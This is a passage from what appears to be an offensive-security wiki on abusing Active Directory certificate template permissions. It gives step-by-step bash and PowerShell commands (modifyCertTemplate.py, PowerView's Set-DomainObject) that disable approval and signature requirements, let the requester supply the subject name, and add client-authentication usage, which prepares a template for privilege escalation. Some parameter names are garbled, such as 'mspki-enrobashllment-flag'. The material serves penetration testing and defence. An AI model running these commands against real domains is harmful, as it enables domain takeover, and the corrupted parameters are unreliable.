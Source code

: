 ```bash
# 1. Disable Manager Approval Requirement
modifyCertTemplate.py -template templateName -value 2 -property mspki-enrobashllment-flag "$DOMAIN/$USER:$PASSWORD"

# 2. Disable Authorized Signature Requirement
modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature "$DOMAIN/$USER:$PASSWORD"

# 3. Enable SAN Specification
modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag "$DOMAIN/$USER:$PASSWORD"

# 4. Edit Certificate Application Policy Extension
modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy "$DOMAIN/$USER:$PASSWORD"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate these sensitive access control entries. At the time of writing (October 21st, 2021) [BloodHound](broken-reference) doesn't support (yet) enumeration of these access controls. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) can be used to modify the template.

```powershell
# 1. Enumerate sensitive access control entries
Certify.exe find

# 2. Disable Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# 3. Disable Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# 4. Enable SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# 5. Edit Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```
{% endtab %}
{% endtabs %}
